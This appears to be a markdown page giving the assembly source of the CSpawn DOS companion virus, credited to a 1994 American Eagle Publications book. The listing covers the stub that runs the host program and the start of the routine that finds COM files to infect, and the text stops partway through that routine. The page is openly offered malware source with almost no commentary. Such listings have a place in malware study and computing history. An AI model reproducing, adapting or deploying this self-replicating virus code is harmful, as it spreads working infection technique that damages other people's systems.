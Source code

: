 # CSpawn Virus (COM companion virus)

aka Virus.DOS.Companion.180 (Kaspersky)

## Source Code
```assembly
;The CSpawn virus is a simple companion virus to illustrate how a companion
;virus works.
;
;(C) 1994 American Eagle Publications, Inc. All Rights Reserved!

.model tiny
.code
org  0100h

CSpawn:
        mov     sp,OFFSET FINISH + 100H  ;Change top of stack
        mov     ah,4AH                    ;DOS resize memory fctn
        mov     bx,sp
        mov     cl,4
        shr     bx,cl                     ;BX=# of para to keep
        inc     bx
        int     21H                       ;set up EXEC param block

        mov     bx,2CH
        mov     ax,[bx]
        mov     WORD PTR [PARAM_BLK],ax   ;environment segment
        mov     ax,cs
        mov     WORD PTR [PARAM_BLK+4],ax ;@ of parameter string
        mov     WORD PTR [PARAM_BLK+8],ax ;@ of FCB1
        mov     WORD PTR [PARAM_BLK+12],ax;@ of FCB2

        mov     dx,OFFSET REAL_NAME       ;prep to EXEC
        mov     bx,OFFSET PARAM_BLK
        mov     ax,4B00H
        int     21H                       ;execute host

        cli
        mov     bx,ax                     ;save return code here
        mov     ax,cs                     ;AX holds code segment
        mov     ss,ax                     ;restore stack first
        mov     sp,(FINISH - CSpawn) + 200H
        sti
        push    bx
        mov     ds,ax                     ;Restore data segment
        mov     es,ax                     ;Restore extra segment

        mov     ah,1AH
        mov     dx,80H
        int     21H                       ;DOS set DTA function
                                          ;put DTA at offset 80H
        call    FIND_FILES                ;Find and infect files

        pop     ax                        ;AL holds return value
        mov     ah,4CH
        int     21H                       ;DOS terminate function
                                          ;bye-bye

;The following routine searches for COM files and infects them
FIND_FILES:
        mov     dx,OFFSET COM_MASK        ;search for COM files
        mov     ah,4EH
```